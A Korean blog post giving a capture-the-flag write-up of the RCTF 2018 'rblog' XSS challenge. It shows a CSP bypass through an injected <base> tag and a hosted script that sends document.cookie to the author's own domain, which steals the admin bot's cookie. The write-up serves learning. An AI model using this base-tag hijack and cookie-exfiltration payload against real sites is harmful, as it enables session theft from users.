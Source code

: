 ```yaml
---
layout: post
title: RCTF2018 rblog Write up
comments: true
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - RCTF2018
  - ccoma
---
```


`rblog`는 `RCTF 2018`에 출제되었던 XSS 문제인데, 대회 기간에는 풀이하지 못했다가 Write-up이 올라온 후 풀어보게 되었다.  

문제 정보는 아래와 같다.  

<!--more-->

```
get `document.cookie`
http://rblog.2018.teamrois.cn
```

### 1. 문제 분석

문제 링크에 접속하면 아래와 같은 페이지를 확인할 수 있다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_01.PNG)  

제목과 내용을 적고, 스타일을 적용하거나 이미지를 업로드할 수 있는 기능이 있다.  

또한 `최신 버전의 Chrome을 사용중인 admin`에게 신고할 수도 있다.  

admin에게 신고할 때에는 특정 값을 입력해야 하는데, 이는 내가 업로드 한 블로그의 주소라는 것을 알 수 있다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_02.PNG)  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_03.PNG)  

### 2. 취약점 찾기

문제의 설명에서 `document.cookie`를 얻으라고 했으므로 `XSS` 문제인 것은 알 수 있다.  

때문에 어떤 부분에서 `XSS`가 가능한지 알기 위해 `title`, `content`, `style`을 적용하는 부분에 아래와 같이 script 코드를 삽입 해 보았다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_04.PNG)  

그 결과, `title` 부분에서 `script`가 정상적으로 삽입되는 것을 확인할 수 있었지만, 실행되지는 않았다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_05.PNG)  

이 문제에도 역시나 `CSP`가 걸려있었다.  

`XSS` 공격은 해야하는데, `CSP`가 걸려 있어서 어떻게 풀이해야 하나 싶었는데, 다른 사람들의 write-up을 보니 `Google`에서 만든 [CSP Evaluator](https://csp-evaluator.withgoogle.com/)를 통해 특정 사이트에 적용 된 CSP 정보를 확인할 수 있었다.  

문제의 URL을 넣고 확인 해 보니 `base-uri`에 대한 보호가 적용되어 있지 않았다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_06.PNG)  

즉, `<base>`라는 태그를 사용하여 소스코드 상에서 사용된 상대 경로의 기준이 될 경로를 지정할 수 있다.  

만약 소스코드에서 css 파일이나 js 파일 등을 참조할 때 `./css/style.css`라는 상대 경로가 있을 경우, `<base>` 태그를 이용해 따로 경로를 설정해 주지 않는 한 `현재 페이지의 경로를 기준`으로 `style.css`를 찾아간다.  

그런데 만약 `<base>` 태그를 이용 해 `<base href="http://www.test.com/">`와 같이 기준 경로를 바꾸어 줄 경우, `설정해 준 경로를 기준`으로 파일을 찾아가게 된다.  

따라서 `<base>` 태그를 이용 해 기준 경로를 바꾸어 준다면, 문제의 소스코드 내에서 사용하는 `js`나 `css`를 내가 원하는 파일로 바꾸어 실행시킬 수 있다.  

우리는 `document.cookie`를 얻어야 하므로, `js` 파일을 사용하는 부분을 찾아보았다.  

다시 소스코드를 살펴보니 내가 업로드 한 블로그 글의 하단에서 아래와 같이 `js` 파일을 실행시키는 것을 확인할 수 있었다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_07.PNG)  

따라서 `<base>` 태그를 이용 해 기준 경로를 바꾸어 준 후, 바꾼 경로에 `/assets/js/jquery.min.js` 파일을 만든다면, 내가 원하는 코드를 실행시킬 수 있게 된다.  

### 3. 문제 풀이

나는 내 서버와 도메인을 갖고 있기 때문에 내 서버를 사용했다.  

내 서버에 `/assets/js/` 디렉토리 아래에 `jquery.min.js` 파일을 생성한 후, 아래와 같이 소스코드를 구현하였다.  

```js
location.href = "http://ccoma.me/?" + document.cookie;
```

이 후 `title`에 `<base href="http://ccoma.me/"/>` 를 넣어 글을 올린다면 기준 경로가 내 도메인이 되어 `<script nonce="af8d8b049007ffdddf9d4104295d126e" src="/assets/js/jquery.min.js"></script>`는 실제로는 `http://ccoma.me/assets/js/jquery.min/js`를 실행하게 된다.  

이 때, 해당 경로에는 `location.href = "http://ccoma.me/?" + document.cookie;`가 있으므로 `document.cookie`의 값을 인자로 해 해당 도메인에 접근하게 될 것이다.  

글을 업로드 한 후에 해당 글의 경로를 `admin`에게 신고하면 `admin`이 해당 글에 접근할 것이며, 결론적으로 `admin`의 `cookie`를 인자로 해당 도메인에 다시 접근하게 된다.  

먼저 아래와 같이 글을 올려 보았다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_08.PNG)  

`jquery.min.js`에는 `location.href`가 구현되어 있기 때문에 내 서버로 리다이렉트 될 것이다.  

때문에 `burp suite`를 이용 해 `Response`를 잡아 블로그 글의 주소를 캡쳐 했다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_09.PNG)  

이 후 해당 글의 링크를 `admin`에게 보내주었다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_10.PNG)  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_11.PNG)  

그러면 `admin`이 내 서버로 접근하게 되는데, 이 때 GET 방식으로 cookie가 넘어오게 되므로 이를 확인하기 위해 `access.log`를 확인 해 보았다.  

```
tail -f /var/log/apache2/access.log
```

전송 후에 짧게는 몇 초, 길게는 2분 정도를 기다리면 아래와 같이 flag가 함께 전송된 것을 확인할 수 있다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_12.PNG)  

```
FLAG : RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012}
```
